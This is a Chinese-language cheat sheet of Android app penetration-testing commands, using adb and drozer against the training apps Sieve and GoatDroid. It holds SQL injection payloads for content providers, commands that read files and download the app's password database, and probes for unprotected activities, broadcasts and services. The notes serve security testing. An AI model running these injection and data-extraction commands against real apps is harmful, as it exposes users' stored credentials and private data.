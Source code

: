 # App渗透测试记录 

### 1. 常用命令  

1. 获取已安装应用的包名  

 		adb shell pm list packages  
 
2. 获取包名对应的APK路径
 
 		adb shell pm path com.vivo.sdkplugin 
3. 把APK pull到本地  

 		adb pull /data/app/com.vivo.sdkplugin-zvXOuWJKeKVhhESsKWxOxg==/base.apk abc.apk
4. aapt获取APK包的信息 
 
 		aapt dump badging apk_path  

5. 获取应用的信息  

 		adb shell dumpsys package <package_name>  

6. 获取当前运行的Activity   

		adb shell dumpsys activity | grep -i run   
 
7. 获取和用户正在交互的Activity  
 
 		adb shell dumpsys activity  | grep "mFoc"
 		

### 2. drozer使用  

1. adb forward tcp:31415 tcp:31415  
2. adb console connect  
3. run app.package.list 
4. run app.package.list -f sieve 
5. run app.package.info -a com.mwr.example.sieve  
6. 检查攻击面：  
 
 		run app.package.attacksurface com.mwr.example.sieve  
 
#### 1. Activity测试  
1. 查看activity信息：  

 		run app.activity.info -a com.mwr.example.sieve

2. 启动activity信息：  
	1. Activity通常就是一个单独的屏幕，可以显示一些控件也可以监听并处理用户的的事件最初响应；   
 	2. Activity之间通过Intent进行通信，最重要的部分：动作和动作对应的数据  
 	3. 越权访问问题  

			run app.activity.start –-component com.mwr.example.sieve com.mwr.example.sieve.PWList  

 	  翻译编译代码，确定activity需要传递的参数，启动activity：  

 			run app.activity.start --component com.example.pacakge com.example.activity --extra string package strvalue --extra string appid appidvalue    


#### 2. Provider测试  
1. 查看content provider信息  

 		run app.provider.info -a com.mwr.example.sieve  

2. 查找可以访问的content provider的URI  
 1. 最好需要打开应用程序，保证应用程序在运行  
 2. 数据泄露  

 			run scanner.provider.finduris -a com.mwr.example.sieve

 		查询、修改数据：  
 		
 			run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ –-vertical
 			
3. 进行SQL注入  
 
 1. SQLite数据库使用SQL语句，所以进行SQL注入，使用projection参数和selection参数可以传递一些简单点得SQL注入语句，获取到详细的报错信息：    
 
  			run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'"   

  			run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'" 
   
 2. 查询所有数据库表：  
  
  			run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM SQLITE_MASTER WHERE TYPE='table';-- "   
  
 3. 列出数据库内容：
 
  			run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;-- "   
    
4. 扫描注入：
 
  		run scanner.provider.injection -a APP
  
5. 从File Content Providers获取信息：    
 	1. File System-backed Content Provider提供了访问底层文件系统的方法，Android沙盒会阻止App共享文件允许，而File System-backed Content Provider允许App共享文件。 
 	2. 对于sieve来说，我们可以推测出的FileBackupProvider就是一个file system-backed content provider。 我们可以使用drozer的app.provider.read模块查看某个文件：
  
  			run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts  
6. 文件下载：
 
  		run app.provider.download content://com.mwr.example.sieve.FileBackupProvider/data/data/com.mwr.example.sieve/databases/database.db /home/user/database.db  

7. 检查是否存在遍历文件漏洞
 
  		run scanner.provider.traversal -a com.mwr.example.sieve   
 
 
#### 3. Broadcast测试：  
	
BroadcastReceive广播接收器应用可以使用它对外部事件进行过滤只对感兴趣的外部事件(如当电话呼入时，或者数据网络可用时)进行接收并做出响应。广播接收器没有用户界面。然而，它们可以启动一个activity或serice 来响应它们收到的信息，或者用NotificationManager来通知用户。通知可以用很多种方式来吸引用户的注意力──闪动背灯、震动、播放声音等。一般来说是在状态栏上放一个持久的图标，用户可以打开它并获取消息。   

1. 查看暴露的广播组件信息：
 
  		run app.broadcast.info -a com.package.name  
 
    
2.  发送信息：
 
  		run app.broadcast.send --component packagename receivername --action android.intent.action.XXX

    
3.  空action：
 
  		run app.broadcast.send --component packagename ReceiverName
  
4. 空extras:
 
  		run app.broadcast.send --action android.intent.action.XXX

#### 4. service测试：  

 1. 获取service：
  
  		run app.service.info -a com.mwr.example.sieve
  
 2. 向某个服务发送信息：
 
  		run app.service.send com.mwr.example.sieve com.mwr.example.sieve.CryptoService –msg 1 5 3
 3. 启动service：
 
  		run app.service.start --action org.owasp.goatdroid.fourgoats.services.LocationService --component org.owasp.goatdroid.fourgoats org.owasp.goatdroid.fourgoats.services.LocationService
  
 4. 使用命令：  
  
  		run app.service.send <package name> <component name> --msg <what> <arg1> <arg2> --extra <type> <key> <value> --bundle-as-obj
  		
 